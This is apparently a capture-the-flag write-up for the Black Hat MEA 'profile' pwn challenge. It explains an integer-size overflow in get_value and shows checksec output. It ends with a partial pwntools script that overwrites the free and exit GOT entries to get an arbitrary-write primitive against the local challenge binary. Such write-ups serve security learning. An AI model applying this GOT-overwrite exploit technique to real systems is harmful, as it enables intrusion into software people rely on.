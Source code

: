 ```c
         "Name: %s\n"
         "Age: %d\n"
         "----------------\n",
         employee.id, employee.name, employee.age);

  free(employee.name);
  exit(0);
}
```

The program is simple, get employee's age and name.

But, there is overflow vulnerability in `get_value` because the size of `employee.age` is 4 bytes. It treats the argument(`pval`) as 8 bytes variable.

Using this, we can write over `name` variable and we can control the address of `name`.

```
NAME
       getline, getdelim - delimited string input

DESCRIPTION
       getline()  reads  an entire line from stream, storing the address of the
       buffer containing the text into *lineptr.  The buffer is null-terminated
       and includes the newline character, if one was found.

       If  *lineptr  is  set to NULL and *n is set 0 before the call, then get‐
       line() will allocate a buffer for storing the line.  This buffer  should
       be freed by the user program even if getline() failed.
```

If we set `name` as the address which we want to overwrite, `getline` uses it and we can overwrite it.

```
$ checksec profile
[*] '/home/brwook/ctf/33_blackhat_mea/profile/profile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Even, the problem has a weak mitigation (Partial RELRO, No PIE). Therefore we can overwrite `free` got as `_start` or `main` function and we can get unlimited AAW primitive.

```py
from pwn import *

if args.REMOTE:
    p = remote('localhost', 5000)
    libc_path = "/lib/x86_64-linux-gnu/libc.so.6"
else:
    p = process('./profile', aslr=1)
    libc_path = "/lib/x86_64-linux-gnu/libc.so.6"

libc = ELF(libc_path, False)
_start = 0x4011b0
free_got = 0x404018
exit_got = 0x404068
printf_plt = 0x401120
p.sendlineafter(b"Age: ", str((free_got) << 32).encode())
p.sendlineafter(b"Name: ", p64(_start)[:3])
p.sendlineafter(b"Age: ", str((exit_got) << 32).encode())
p.sendlineafter(b"Name: ", p64(_start)[:3])
p.sendlineafter(b"Age: ", str((free_got) << 32).encode())
p.sendlineafter(b"Name: ", p64(printf_plt)[:3])
```